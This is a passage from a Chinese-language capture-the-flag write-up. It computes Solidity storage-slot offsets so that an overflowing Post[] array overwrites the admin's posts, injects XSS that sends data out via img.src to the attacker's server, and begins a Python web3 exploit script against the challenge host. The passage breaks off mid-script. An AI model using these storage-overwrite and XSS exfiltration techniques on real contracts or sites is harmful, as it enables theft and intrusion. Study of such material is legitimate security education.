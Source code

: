 这里便需要一些 solidity memory layout 的知识。

https://docs.soliditylang.org/en/v0.8.17/internals/layout_in_storage.html

对着它的合约，version 占据 slot0，我们在的 postMapping 对应 slot4，也就是说，postMapping[address] 对应的 slot 为 `keccak256(bytes32(account) + bytes32(4))` 。由于 Post[] 又是 dynamic array，需要对之前得到的地址再次 keccak256()，得到该数组的起始 slot。数组内各元素存放地址为 `keccak256(起始slot + index)`。

![img](images/160-9.png)

有了该溢出之后，由于 solidity 对每个合约共用一个 2^256 slot 大小的地址空间，也就是说，由我们的 Post[]  是可以访问到对应 admin 的 Post[] 数组的，只是需要注意到一些简单的计算。这里还要特别注意，由于 struct Post 占 3 个 slot，所以计算 offset 时需要除以 3，并保证能够整除，否则需要更换地址继续。

```python
mypos = keccak256(keccak256(bytes32(account) + bytes32(4)))
admin = '0x04478cD6BD7DE5f721a88d25A2f44edba2627276'[2:].lower() # <--- admin public address
apos = keccak256(keccak256(bytes32(admin) + bytes32(4)))
 
offset = int(apos, 16) - int(mypos, 16)
if offset < 0:
    offset += 2**256
assert(offset % 3 == 0)
offset //= 3
```

搜出来路径可能不唯一，但有肯定是有的。然后用经典 img.src 送到我们服务器上即可。

至此，已经完成了攻击链的所有步骤。

V8 随机数向前预测，计算充值码 ==> 在 Solidity 合约上 slot 任意读写 ==> 修改 admin 的 Post 并 XSS ==> prvkey 签名得到 flag

```python
import requests, web3, json, binascii
from Crypto.Hash import keccak
from web3 import Web3
from eth_account.messages import encode_defunct
 
URL = 'http://ctf2024-entry.r3kapig.com:32090'
 
prvkey = '0x000000000000000000000000000000000000000000000000000000000000000b'
 
res = requests.get(URL + '/api/backend').json()['data']['blog']
address = res['address']
abi = res['abi']
 
web3 = Web3(Web3.HTTPProvider(URL + '/rpc'))
account = web3.eth.account.from_key(prvkey).address
 
```
